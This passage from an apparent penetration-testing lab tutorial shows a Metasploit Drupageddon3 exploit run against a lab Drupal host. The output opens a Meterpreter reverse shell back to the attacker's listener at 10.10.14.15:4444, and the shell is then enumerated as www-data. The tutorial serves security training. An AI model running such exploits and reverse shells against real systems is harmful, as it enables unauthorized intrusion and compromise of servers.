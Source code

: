 ```shell-session
```

If successful, we will obtain a reverse shell on the target host.

```shell-session
msf6 exploit(multi/http/drupal_drupageddon3) > exploit

[*] Started reverse TCP handler on 10.10.14.15:4444 
[*] Token Form -> GH5mC4x2UeKKb2Dp6Mhk4A9082u9BU_sWtEudedxLRM
[*] Token Form_build_id -> form-vjqTCj2TvVdfEiPtfbOSEF8jnyB6eEpAPOSHUR2Ebo8
[*] Sending stage (39264 bytes) to 10.129.42.195
[*] Meterpreter session 1 opened (10.10.14.15:4444 -> 10.129.42.195:44612) at 2021-08-24 12:38:07 -0400

meterpreter > getuid

Server username: www-data (33)


meterpreter > sysinfo

Computer    : app01
OS          : Linux app01 5.4.0-81-generic #91-Ubuntu SMP Thu Jul 15 19:09:17 UTC 2021 x86_64
Meterpreter : php/linux
```

***

## Onwards

We have enumerated and attacked some of the most prevalent CMS': WordPress, Drupal, and Joomla. Next, let's move on to Tomcat, which has been putting a smile on the face of pentesters for years.
